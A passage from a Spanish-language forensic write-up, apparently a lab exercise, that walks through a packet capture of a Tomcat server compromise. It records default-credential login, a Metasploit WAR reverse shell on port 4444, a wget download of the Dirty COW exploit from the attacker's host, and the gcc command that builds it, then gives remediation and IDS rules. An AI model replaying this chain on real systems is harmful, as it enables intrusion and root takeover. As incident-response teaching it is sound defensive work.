3. **Firma de Nmap**: La secuencia de paquetes en el tiempo (columna *Time*) con milisegundos de diferencia confirma que estamos ante un escaneo de servicios (`-sV`) diseñado para identificar versiones específicas y posibles vulnerabilidades. 

  

Tras un análisis más exhaustivo vemos que hay una espera de varios segundos (no fijo pero entre 2 y 5 s) en los que nmap pausa y cambia de puerto. Después, de pronto, hay una espera de 30 s tras lo cual se realizan intentos de conexión mucho más espaciados en el timpo TCP a los puertos 139 y 445 y luego al 8180 y al poco aparece un cambio de dirección de comunicación de la victima al atacante y desde un puerto extraño: `4444`

| No. | Time | Src | Dst | Port Info | Stream |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 5160 | 201.25 | .101 | .102 | 8180 → 37022 [S, A] | 2170 |
| 5185 | 201.27 | .101 | .102 | 80 → 37662 [S, A] | 2173 |
| --- | --- | --- | --- | **INICIO ACTIVIDAD MANUAL** | --- |
| **5294** | **229.55** | **.101** | **.102** | **139 → 60530 [S, A]** | **2192** |
| 5328 | 234.24 | .101 | .102 | 445 → 44358 [S, A] | 2196 |
| 6340 | 435.56 | .101 | .102 | 8180 → 44458 [S, A] | 2341 |
| 7181 | 636.28 | .101 | .102 | 8180 → 47654 [S, A] | 2481 |
| --- | --- | --- | --- | **PUERTO ANÓMALO** | --- |
| **7303** | **655.29** | **.102** | **.101** | **4444 → 39009 [S, A]** | **2493** |
| 9189 | 1114.9 | .102 | .101 | 8000 → 54899 [S, A] | 2785 |

---

Tras analizar las distintas conexiones la primera del puerto 8180 nos da un petición get http al servidor

---

### Análisis de Flujo TCP: Interacción con Servicio HTTP (Puerto 8180)

| No. | Time | Len | Src/Dst | Protocolo / Evento | Stream |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 6339 | 435.56 | 74 | .102→.101 | TCP: [SYN] Puerto 8180 | 2341 |
| 6342 | 435.56 | 149 | .102→.101 | **HTTP: GET / HTTP/1.1** | 2341 |
| 6344 | 435.57 | 2962 | .101→.102 | TCP: [ACK] (PDU Data) | 2341 |
| 6348 | 435.57 | 245 | .101→.102 | **HTTP: 200 OK** | 2341 |
| 6350 | 435.57 | 66 | .102→.101 | TCP: [FIN, ACK] | 2341 |

En las columnas resaltadas vemos que hay mucha información html saliendo disponible. No debería ser así. Identifiquemos el vector de ataque

### Evidencia de Compromiso: Acceso al Tomcat Manager vía Fuerza Bruta

Este análisis documenta el momento crítico en el que el atacante logra acceso administrativo. El uso de credenciales por defecto permite al atacante saltar la barrera de autenticación y acceder a la interfaz de despliegue de aplicaciones.

| No. | Time | Len | Src→Dst | Auth / Status | Detalle Forense |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 6520 | 452.12 | 450 | .102→.101 | GET /manager/html | Intento sin credenciales. |
| 6521 | 452.12 | 948 | .101→.102 | **401 Unauth** | Servidor solicita Basic Auth. |
| 6525 | 456.31 | 480 | .102→.101 | **Auth: tomcat:tomcat** | Credenciales detectadas. |
| 6526 | 456.31 | 8868 | .101→.102 | **200 OK** | **ACCESO CONCEDIDO**. |
| 6530 | 456.50 | 7279 | .101→.102 | image/gif | Fuga de recursos visuales. |


---

####  Puntos Clave del Análisis Forense:

1.  **Explotación de Credenciales Débiles**: La cadena `dG9tY2F0OnRvbWNhdA==` es el rastro definitivo del uso de configuraciones de fábrica. En un entorno real, esto indica una falla crítica en la política de contraseñas.
2.  **Volumen de Información Exfiltrada (Length)**: El paquete **6526** contiene **8,868 bytes**, lo que representa el DOM completo del "Web Application Manager". Esto le da al atacante una lista de todas las aplicaciones desplegadas, versiones del sistema operativo (`Linux 2.6.24`) y arquitectura del procesador (`i386`).
3.  **Identificación del Vector de Ataque**: La presencia del formulario de carga (`enctype="multipart/form-data"`) en el HTML recibido confirma que el atacante ahora tiene la capacidad de realizar un **Unrestricted File Upload** mediante archivos `.war` para ejecutar código remoto (RCE).

---
### Evidencia de Ejecución de Comandos Remotos (RCE)

El análisis de las peticiones `POST` con `http.request.method == "POST"`revela la progresión del ataque desde la enumeración de servicios adicionales hasta el compromiso final mediante la subida de un archivo malicioso.

| No. | Time | Len | Petición (POST) | Detalle Forense |
| :--- | :--- | :--- | :--- | :--- |
| 5074 | 201.2 | 689 | `/sdk` | Intento SDK. |
| 5084 | 201.2 | 684 | `/sdk` | Enum. SDK. |
| **7259** | **649.7** | **557** | **POST (V1)*** | **SUBIDA .WAR** |

(*) V1 (Vector 1):Corresponde a la ruta crítica `/manager/html/upload`.

#### Hallazgo Crítico: El Paquete 7259
Este paquete contiene el archivo `.war` que Metasploit utiliza para desplegar la Reverse Shell. Al ser una petición `POST` a la ruta de `/upload`, el servidor Tomcat acepta el archivo y lo despliega automáticamente en el directorio de aplicaciones web. Haciendo el seguimiento de dicho paquete encontramos información acerca del mismo. Después de esta subida empieza la conexión con el puerto `4444` desde la víctima a la máquina atacante (**reverse shell**).

**Acciones de Remediación (Backdoor Cleanup):**
1. **Identificación:** El archivo cargado se encontrará físicamente en `/var/lib/tomcat5.5/webapps/`.  
2. **Eliminación:** Se debe borrar el archivo `.war` y el directorio asociado que Tomcat crea al descomprimirlo.  
3. **Cierre de Brecha:** El hecho de que el atacante pudiera llegar a este `POST` confirma que el endurecimiento de credenciales es inexistente.


## Aislamiento del Vector de Escalada de Privilegios

### Metodología de Filtrado y Análisis
Tras estar analizando el contenido de los tcp para el puerto **4444** nos damos cuenta de que no hay mucho más. Para ver si ha habido algún tipo de escalada de privilegios o extracción, detectamos el momento en el que se establece la primera conexión con dicho puerto (alrededor del tiempo 665 de tcpdump). Usamos el siguiente filtro para ver todos los tipos de conexiones que ha habido entre nuestra máquina y el atacante a partir de ese momento buscando un protocolo que no sea tcp `ip.src == 192.168.56.101 && frame.time_relative > 655 && ip.addr==192.168.56.102`. El objetivo era identificar el momento preciso en que el atacante, ya con acceso inicial como usuario `tomcat55`, intentaba introducir herramientas externas para elevar sus privilegios.


### Evidencia de Transferencia (Stream TCP 2785)

Al limpiar el ruido, se identificó una conexión anómala hacia el puerto **8000** del atacante. A diferencia del tráfico de "falso positivo" generado anteriormente, esta conexión transportaba un archivo de código fuente altamente sospechoso.

| No. Paquete | Timestamp | Protocolo | Evento Clave | Significado Forense |
| :--- | :--- | :--- | :--- | :--- |
| **9187** | 1114.99 | TCP | `SYN` | La víctima inicia la conexión al servidor de archivos del atacante. |
| **9192** | 1114.99 | HTTP | `GET /40839.c` | **Petición del Exploit**: Se solicita el archivo desde la shell interactiva. |
| **9196-9203** | 1115.04 | TCP | `Data Segments` | Transferencia efectiva de los paquetes de datos del archivo. |
| **9204** | 1115.04 | HTTP | `200 OK (text/x-csrc)` | **Confirmación**: Transferencia exitosa de código en C (Vector de Escalada). |


### Hallazgos Críticos
1. **Contenido Revelador**: El paquete **9204** clasifica el contenido como `text/x-csrc`. Es una anomalía crítica: un servidor web en producción no debería descargar código fuente en C desde fuentes externas no autorizadas.  
2. **Persistencia**: El cierre de la conexión mediante `FIN, ACK` (Paquete 9205) tras la descarga confirma que el atacante ya posee el archivo localmente y está listo para la siguiente fase: la compilación y ejecución.

---

# Fase 4: Análisis de Integridad y Forense de Artefactos
##  Extracción Forense del Artefacto Malicioso
Al hacer seguimiento del paquete obtenemos esto:
```text
GET /40839.c HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 192.168.56.102:8000
Connection: Keep-Alive
```
Una vez identificado el flujo HTTP que transporta el exploit (`40839.c`), el siguiente paso es la reconstrucción del archivo para su análisis offline. En el paquete **9192** se observa que el agente de usuario es `Wget/1.10.2`, confirmando que el atacante ejecutó una descarga remota desde la shell.

### Procedimiento de Extracción en Wireshark

Para extraer el objeto de la captura de red, sigue estos pasos:

1.  **Menú de Objetos**: Nos dirigmos a la barra superior y selecciona `Archivo` -> `Exportar objetos` -> `HTTP...` (File -> Export Objects -> HTTP).  
2.  **Localización**: Se abrirá una lista con todos los archivos transferidos por HTTP. Busca en la columna "Packet" el número **9204** (o busca por el nombre de archivo `40839.c`).  
3.  **Guardado**: Se selcciona y clic en `Save`.


---

## Análisis de Integridad y Reputación (Hash)

Con el archivo ya en el sistema de archivos local, procedemos a generar su firma digital única. Este paso es vital para buscar el malware que es.

### Cálculo del Hash SHA-256
Ejecutamos el siguiente comando en la terminal para obtener el identificador único del archivo extraído:
```text
sha256sum exploit.c
sha256sum exploit_wiresark.c 
b18248070d1ef272353d54df4a8d22006a98f121d55c6ecce6d097336867b2d2
```

### 3. Verificación de Reputación
El hash obtenido se cruza con bases de datos de inteligencia de amenazas:
* **VirusTotal**: Para verificar si motores de antivirus lo detectan como malicioso.
* **Exploit-DB**: Para confirmar que el código corresponde exactamente a la vulnerabilidad CVE-2016-5195.

## Análisis Estático (Análisis del Hash)

Tras extraer el artefacto y calcular su firma digital, hemos obtenido el siguiente resultado:

**Archivo:** `40839.c`
**SHA-256:** `b18248070d1ef272353d54df4a8d22006a98f121d55c6ecce6d097336867b2d2`

###  ¿Por qué el Hash no aparece como "Malicioso"?

Es común que al subir este hash a **VirusTotal** o buscarlo en **Exploit-DB**, no obtengamos una coincidencia de "Malware".


---

## Correlación Final - La Prueba en la Shell

Como el hash no fue concluyente en las bases de datos públicas, recurrimos a la **correlación de eventos** en el tráfico de red. Si el atacante descargó un archivo `.c` y acto seguido ejecutó un compilador, la intención maliciosa queda confirmada.

### Análisis del Stream de Comandos (Puerto 4444)

Al analizar el `Follow TCP Stream` del flujo **2493** (donde reside la shell), observamos la secuencia lógica que confirma la escalada de privilegios


## Análisis de Carga Útil (Deep Packet Inspection)

Para confirmar las acciones del atacante sin depender de suposiciones, se realizó un análisis del contenido binario de los paquetes en el **Stream 2493**. A diferencia del análisis de flujo simple, el DPI nos permite ver los comandos exactos enviados a través de la shell.

### 🔍 Inspección del Paquete de Compilación
Como vemos hay mucha comunicación `PSH, ACK` en intervalos muy cortos lo que sugiere una interacción con la shell, como un compilador. Tras ver un intento y varios errores damos con el que finalmente compila y al inspeccionar el paquete con el flag `PSH, ACK` enviado desde la víctima al atacante, se identifica el payload de datos en texto claro:

**Hexdump del comando detectado:**
```text
0040   88 2f 67 63 63 20 2d 70 74 68 72 65 61 64 20 34   ./gcc -pthread 4
0050   30 38 33 39 2e 63 20 2d 6f 20 63 6f 77 20 2d 6c   0839.c -o cow -l
0060   63 72 79 70 74 0d 0a                              crypt..
```
>Este paquete representa la evidencia irrefutable de actividad maliciosa, donde vemos que efectivamente se ha compilado el exploit. La secuencia detectada (Descarga por puerto 8000 -> Compilación por puerto 4444) demuestra un flujo de ataque coordinado que evade las defensas perimetrales estándar que solo inspeccionan el puerto 80/443.


# Conclusión y Recomendaciones de Seguridad

El análisis forense confirma que el host `192.168.56.101` fue comprometido totalmente, escalando desde un acceso web no autorizado hasta privilegios de `root`. La intrusión fue posible debido a una **higiene de credenciales deficiente** y a la **falta de parches de seguridad** en el sistema operativo.

## Recomendaciones Inmediatas (Contención)
1.  **Aislamiento del Host:** Desconectar inmediatamente el servidor de la red para detener la comunicación con el C2 (Puerto 4444).
2.  **Limpieza de Artefactos:** Eliminar el archivo `.war` malicioso en `/var/lib/tomcat5.5/webapps/` y el binario compilado `cow`.
3.  **Análisis de Persistencia:** Revisar tareas programadas (cron jobs) y usuarios nuevos (`/etc/passwd`) que el atacante haya podido crear tras obtener root.

## Recomendaciones a Corto Plazo (Remediación)
* **Endurecimiento de Tomcat:**
    1. Cambiar inmediatamente las credenciales por defecto (`tomcat:tomcat`).  
    2. Restringir el acceso al `Tomcat Manager` únicamente a IPs de administración internas o mediante VPN.  
    3. Eliminar la aplicación `/manager` si no es estrictamente necesaria para la operación.  
* **Gestión de Vulnerabilidades:** Actualizar el Kernel de Linux para mitigar la vulnerabilidad Dirty COW (CVE-2016-5195).  

## Estrategia de Detección (Blue Team)
Para prevenir futuros incidentes similares, se recomienda implementar reglas de detección en el IDS/IPS (Snort/Suricata) basadas en los indicadores de compromiso (IOCs) hallados:  
* **Regla de Red:** Alertar sobre cualquier tráfico TCP saliente hacia puertos no estándar (como 4444).  
* **Regla de Aplicación:** Alertar sobre peticiones `POST` hacia `/manager/html/upload` que contengan cabeceras de archivos binarios (Magic Bytes de ZIP/WAR).  
